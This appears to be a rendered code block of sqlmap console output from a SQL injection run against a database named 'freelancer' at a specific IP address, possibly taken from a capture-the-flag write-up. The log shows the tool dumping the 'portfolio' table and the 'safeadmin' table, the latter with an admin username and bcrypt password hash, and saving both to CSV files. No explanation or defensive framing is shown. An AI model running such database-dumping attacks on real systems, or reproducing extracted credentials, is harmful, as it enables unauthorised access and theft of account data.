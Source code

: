```bash
[17:02:08] [INFO] fetching current database
[17:02:08] [INFO] fetching tables for database: 'freelancer'
[17:02:08] [INFO] fetching columns for table 'portfolio' in database 'freelancer'
[17:02:08] [INFO] fetching entries for table 'portfolio' in database 'freelancer'
Database: freelancer
Table: portfolio
[3 entries]
+------+-------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id   | name        | content                                                                                                                                                                                                                                     |
+------+-------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1    | Log Cabin 1 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
| 2    | Log Cabin 2 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
| 3    | Log Cabin 3 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
+------+-------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[17:02:08] [INFO] table 'freelancer.portfolio' dumped to CSV file '/home/vscode/.sqlmap/output/206.189.17.51/dump/freelancer/portfolio.csv'
[17:02:08] [INFO] fetching columns for table 'safeadmin' in database 'freelancer'
[17:02:08] [INFO] fetching entries for table 'safeadmin' in database 'freelancer'
Database: freelancer
Table: safeadmin
[1 entry]
+------+----------+--------------------------------------------------------------+---------------------+
| id   | username | password                                                     | created_at          |
+------+----------+--------------------------------------------------------------+---------------------+
| 1    | safeadm  | $2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K | 2019-07-16 20:25:45 |
+------+----------+--------------------------------------------------------------+---------------------+

[17:02:08] [INFO] table 'freelancer.safeadmin' dumped to CSV file '/home/vscode/.sqlmap/output/206.189.17.51/dump/freelancer/safeadmin.csv'
[17:02:08] [INFO] fetched data logged to text files under '/home/vscode/.sqlmap/output/206.189.17.51'
[17:02:08] [WARNING] you haven't updated sqlmap for more than 273 days!!!

[*] ending @ 17:02:08 /2021-01-01/
```
